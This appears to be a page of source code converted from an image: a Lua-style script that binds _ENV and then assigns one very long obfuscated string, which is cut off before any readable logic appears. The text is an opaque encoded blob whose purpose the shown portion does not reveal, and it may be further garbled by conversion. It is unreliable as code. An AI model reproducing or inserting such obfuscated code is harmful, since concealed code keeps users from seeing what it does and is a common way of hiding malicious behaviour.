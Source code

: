 WyztURWwOOIsVDUw=_ENV;GHflzQElKKJnqmG='aGs<bpJTtAYZW)dIAdZb8dJtWbs)TJ)jsYtsJ)dJbsYbIYpIZJGJJAZAIsTtWIsWtAYbTI)t<stWdJbHAYdbt)YYxWpWZJG!JtpT)YstAbdWGIAWIYppIgpDYsIWpJYdAYs5TA)<sbTWdTtsdb<btddtblbXZsQIJsWbGZJJWsGdWTs-TY)bsdttds<W)JIsppYbIdptZ,Y)Gttp)ZGbTd)J<ZtddTAsdIbbAdItp_JDZbGYJWGp<ZAbddbtYsIWTJs<b?AdIsbWYJIdd)T<ZWssTbGdT))*sYtb)WWYb)AYIppAYWppYd6tJsZWGJTQG<Jbtn)I<stWdJ<d<TYs9)pYZ)G)ZtGZJYWbGdTJJJ)dbTtKdWp<ZGIdpsYdpTZ(3YJbZdGtTs<pJJtsd<<btddtb#p)ZsGEJZW<GbT<WJJdd}skTY)bsWssAdItpGAjIWpbYYItT<WZGWTZWd<bJ<)d<<t)dtbZTtgppIZTp<YWuJJ.ZYGbJdIWdsTd)J<=tYdbbjYbIsbWYJIdI<T3ZdGJTZZAsITdI=<JA)<YYGdWbJYlb<Y&sbp)WYsJtp)p<IttWAbJA)dIbAbsAIIbbdYtl I)Jt)psZWJsbTt)ssWtbA)IAbYYAfAY<IWpJZu1YJbZdItZGWdsZtw)Y<btWttItJ<YtpsYd%bpdZtTp)bsTAsTW)ZsdttdsYs%pJsYIPpJGWlZbGbJJWFGYTstGdT<dAJ)psbTAbJYtItpsYWhb&GJW)AsIJG)!sZttdAtWIs<dAtIsbYb<WsGYJATZIATt)W<TTddp<bAo<YAZdWbJY6ItIGJYWtGtT)WWsWtpsJtb)t<stWdbdssZYYLtsTDbJTZJGOJYWsZ)<Yt)WW<tAII)bYAdIYY<WAssTW)J<OtYIWZGWdsYtE)Y<blsJGZsQGItp<YYhbpdsZtTWdWt<sTY)bsdtJTWItptZ&IW<<W.GAT<WtsG<dYYs)tb)t<Y)dbGAvdYbbAWAAPbTGWTdITW)psItb))T))J<1tYdb<dAtGJtWYTBVpYZb+dJtWsTp<J)s<ptb)d<tAEtJ5tpbYW_IGZAJsbTZWbTs)ssbTd)t<QGWYsIIbWttG5pd><IJbIYAL<p)ZTbGGGsdtYdV<YAbdWj<pbW9pTbYY<I)pTZG.ZtpJptsdb<btddtbXs)ZpIdpdZt?WJTWZGdWtsdTY)bsdtJtdds<pYb W<pAWGtJIZZIApYWKTJ)sstts)WAtOApdYAYMIIpsYW^JpdbY)&sTtbdGIW)tbUtYdb<dAJYsIWpdZZIsJp)fGYTd)<sZTsd)G)Tb<YA)dWbJY%ItdbJ<ZdGZJ)YbsGTZ)JsI)YpYtWdJbfAtAp <pdWsWAJAWJs<TJtZ<WtFdWI<A)IAp2YIIYpsZ)QtJGTTstTb)AsT<AW6<WAJdIsdAYIs%AAA)oYW^dpdZtGsJYJJ)*<AtJdCb<TJIdbWIspsYbIdptZ=Y)Gttp)Z-<tYd)tbdG<JA_dYZtIIpYZdGG{tJtZYGbJdWJZI<ptbIJ<WY<IdAYIAbWYJ=0ptbsZdsATt)Ist)GsYtb)d<tAsdWGJ)IIZpbYdStJsZWIJ)I4YsJtb)t<stWdb-ypTYsGsJ<hbJpZJGfJYWsZb<<Asd)<bAZdYbJI=p<YsIWpJYdYZGJt<)ASstt)I<WAAZbtIdtbsAWIJp&YYvbpdZtG<Jd)Ys#TY)bsWGYA)I)btYIZTJGW_GtJTTAGTTJ)Y<pTWd<<std<tYjdYbbAdIJdGJtWpGGJW)<*dTddAsdT<dJbIAJITAAIsbWYJwnpYZbIJYTWbssTJ)MsYITpsYYIZpYY)YZIYpbYd+IJsZWGJTs)<sbTd)t<_spAtI<pZtAIWJ<Z<pdZIG}JYWbGWGGtb)IbTb)Wtp<YtbYYAIWpJZ3UtQGJW)TsbtTdTtsdb<btddtb*<ZYW2bpIWpI<JJW)G)WtsYTY)bsdtJTsIGbbYIItpbZIvYTG5dT W}GYTbWWWT<tA9dZpGpT)sp)ZspbZZ-JJSZYGs*GTd))s)JAdJbAYbIIstYT!spIZGpYZbedJtWs<ZTJ)msYtbp<<tAsdWbJYOIYpbWdAsJsZWGJTFWYsATd)dTGtWdJb1ZtIbbIYtNspWZY<^JYWbGdAJ)ss)tJQBWdAbdIbtYsIWp)Z_GWI)ZdGZTsW)sJt*)Y<bGIdtb<AWIApnYWEbJbZWGsJ)WJsWTY)psdtAdsb ZJIRbYYbnYptZ<eWtJpbGYTpWdsttsd<<JYst<bbYGItpbYW.JJ3ZYYpJdWAssTI)J<stY.b)sAtIbbWYJ:8JGZbsC;GWsswTJ)bsYtb)d<ts<dWbtY#IdpbZo_tJtIZGJTsWY<JTd)A<stWdJbbZYIbbdYtGbpWZTG!JddbGdTt)sbGtJdG<YZbtsbtYbIWpJZBGGJb)HZGTs)hsJtJ)Y<btddt)<AWItp;YdDbJ_ZtGtYZWJsGTYd)sdtAds<WAJIbJYYbIdptWZ+WJTW>GYdAWdsZts))<JA7dYpbIZItppYW^AJeZZGbTbWWssTd)JbWtYdp<dAAIsp9WJC=pYZbsYJtW<GWTYI^sYtb)dpJAsd)bJY0JIpbZGCtJbZWGJT,)YtGTd)Z<stIdJbsAYIbt6YtLspWZTGUJYWbGdTt)ssWtJd:<YAbdIbYYsIWpJZ#tdJbZdGtTsWWsJtK)YJJtddtbsA)IJp>YY%)pdZtGsJdWZs4TY)bsWbWA/IspTIspZYbIdptZLYGstTYWtsItY)d<<TZIsbWYZdGbWZTG<YdG)JnZYGbJWpW)b<)T<dA<tYYI8pTtpnZJsZYdYJAZWsTT#WW<TtsdAtJd)<tAsdWbb<<Z!0IpIAZGtTZ)J<GpY)A<bAGd<t)dJbqAYIbbdYtIsAZZtGAJYWbGdTJJTddbFtdIppQYbIAYbGspJZ}hYJspGWds)T)ZA<JAAIbbITtITpsYI!GbJZTddTGWOsWtJsst4)bsdttdy)JpsYGIWp)}/pWZsfWJJZdZj<bpWstts)W<JAG{tbbAdItTsb;KJJGZYGbJd)GsstdJI<,t)dbbJAtIsbWYJAGpYZpqdJZWsGdTJ)Jsdtb)I<tAtdWbTYgIZpbZsstJsZWGJTJWYspTd)WpstWdJbiZTIbbIYtssIMZJGGJYWbGdTW)s<dGIdB<)AbI%btYsIWpJbG3YJpZdGZTsWdsJtJ)d<btIdtbdAWITp(YZCbJs)tGsJWWJsWTY)psdtW,s<WAJInJTYbIIpt)sY?JJWGGYTbWdsItsddWIACd)bbYbItpsYW%JIGZYGpJdWZssTd)J<JWAdb<IAtiIbWYT#=pYZbGsttWsGWTJd)sYtp)d<tSTdWbTYEIYpbYdrttsp5GJTGWYspTd)Z<stWJsb/A)IbbdYt/spWZJYGJYWpGdTZ)ssdtJdJTAAbdIbtZYIWpTZ {YJbWs<tTsWWsJAt)Y<ptddWJsAWIJp_WTNbpIZtsbZ<WJsGTY)psdttdsbdsII9bWYbm<ptZs&WJJ)IGYTpWdsYts))<JA#pIbbAIItp<YWHJJ}ZYYYJdWAssT))J<GtYdbTwAtIsbWYTlSpYZbGZJtWsGWTt)psYtb)d<J<bYTIWJGIWp)YdUtJsZYZ<sWtY)Y<ItdddbTdtbJAYIbbdYJZIgYJWWIsYWJssTt)ssWtbTJIYssIPpTYsIWpJYdA)GYTAWA/ptsdpbvAZWbb<AdIZb)ItJTYY4bpdZJYJGdtTZ)<<tsIb<YYGWIppYWMb<bZ<%JTGZYGJtGWW<<)5<Gts)W<JtdTIxJptYJS)JtZWGGZWGdJdWtssTYT7)d<dAIIbpAZbI)ptFsJAZbQdJtWUZjstAGZZ<JAddtbbYTITbdZpGpJdLYT<ZWGJTzWtZAb}AsdxbTYsIJbZA<LYJbW<IAJbWIsZWJsbTt)ssWtbTYIJbpYo/GYb,JpJZ7>YJsbdW)sctZ)b<_AZdJb)dYptAWIJp3YtATGbT<W<IITW)I<YApZd<)AtIpbTtWI)<bZT*JTsWWJJW_GYTbWdJZts)W<JAEpIbbAdItpsYWPJJBWmGtJdWtsstO)J<GtYdp<dAWGsbWYJ6BpdZb(IJtWsbdTJ)0sYtp)d<tAsIdt)Y7IYpbZG1tJsZWGJWGWYspTd)A<stWdJJ#YpIbbIYtK<pWZIG7JY)ZGdTA)ssdtJdF<YAbIGbtYsIWpJZF WJbWsGATsWWsJWh)Y<ptdXt)JAWIZp1YdLbJsZtsbjpWJsTTY)Isdttds<WsTI{bIYb5pptZbiWJWIIGYTAWdJtts))<JAKdYbtZdItpsYWbJJHZZGbtdpWsstG)J<btYdA<dYYtZbWY)_RJbZb_dJtWsY)TJ)psYtZ)d<YAsIstpY-IIpbdd!tJ<ZWGJTuWdbbTd)t<sWWdJbGAYGbdsYtLTpWZYG9TTWb<SGG)s<<tJdT<YAbddbt<<IWpZZ>GGJbW0GtTt);sJtp)YbdtddAbsA)IJpbWYybpdZtsWJWWTs}TdIbsdttdsTWAJIGbYYbT<ptZTKWJtW*GYTbddZWtsdG<JApdYbYAdItWdYWo)JOZdGbJdWtssz))J<ptYdZ<dAYIspsYYo-pIZbbdJtW<GWTT)HsdYb)d<tAssWbJYGIYTbbsztJTZWGYTcWIsbAKd<<sA<dJbYAYIbbdYtQZpWZZG-TGWbshTt)s<AtJdJ<YATddbtYsGWJAZwGXJbWbGtTdWWsWtp)Y<YtdGbbsA)IJpDYYrtTdZtGsJWIss,TZ)bsdI)dsbsAJI<bYYbIdTtI)KWJWW:sfTb)YstYsdp<JAJdYbYAdI)psZdAIJgWsGbTtWtssTW)JWGtYdY<dYlIsbdYJhJpdZbGbJtIGGWTT)MsZtbdsptAsdWbJWIIYppYd0WtsZWGJT::YsbTI)tpsGJdJbTAYIAbdYYBsTWGGG;TsWbsbTt)bsWtJdb<YAZddbIYsgbpJ)nGsJbWpGtTAWWsdtq)YbptdI;bsYmIJpBYYDYJZZtGAJWI)s}TZ)b<JttdJpWAJIjbY)ZIdpAZsG?tJWqGYTb7dstt<)WpJGYdYbWAdI)psYdhJtg<TGbTTWtstTW)t<ktYdd<dYcIspbYJuApY)bs:JtWYGWTd);sZtb)dbZAsIpbJYpIYpbYdftJYZWs(T2WdsbTd)t<sAsdJbZAYIWbdYtNspWWGG#TJWbssTt)ssWtJb)<YA)ddpbYsI)pJZJbJJbZdGtTWWWsTty)W<bAsKtbsAWIJpYYY ppdZtbbJWWJseTZ)bsdttdY<WAJINbWYWIdptZsiYGATI)JsdJ)ZWGG))<JA}dYbbAdItpsYWDtJtZYGbJdWJZ<<sAJ)d<AA)I_AAIsbWYJvypYAbT)YtWbs<TJ)2sYtsJdIbbZYt_psgIWJpYd+tJsZYYpGdTY)W<sATddbdYGIGsYZ: TJbWG)WZtGpJYWbGdTJT<)dbZYG<WAZddbtYsIYdtJZZtG<TTWYTsWWsJth)YpbtddtbsAWJApNYY_bpdZtGsJWWJ<bTY)bsdttds<WAJI=ppYbIdptZsuWJJW1GYTZWdstts)W<JA,dYbYZ<ItpsYWGAJ1ZZGbJdWtsJAW)J<jtYIT<dAAIsbWGZ/ pYZb;IJtWsGWYJIAsYtb)d<IAsdIbJYheGpbYdjtJ<ZWGJT^)Ws)Td)A<sAGdJbiAYGbJbYt&<pWZTG{JZWb<NtT)ssdtJdb<YAbddpYYIIWpAZnuWJbZdGttbdJsJtb)Y<JtddtbsAWpJp3YZ=bJsZtGbJW)J<ZTY)bsdtdds<)AJIFpIYbIdptZbnWJJW#GYtJWdstts))<JAGdYbtYJItpsYWspJ7ZZGbJd<)ssTW)J<GtYdb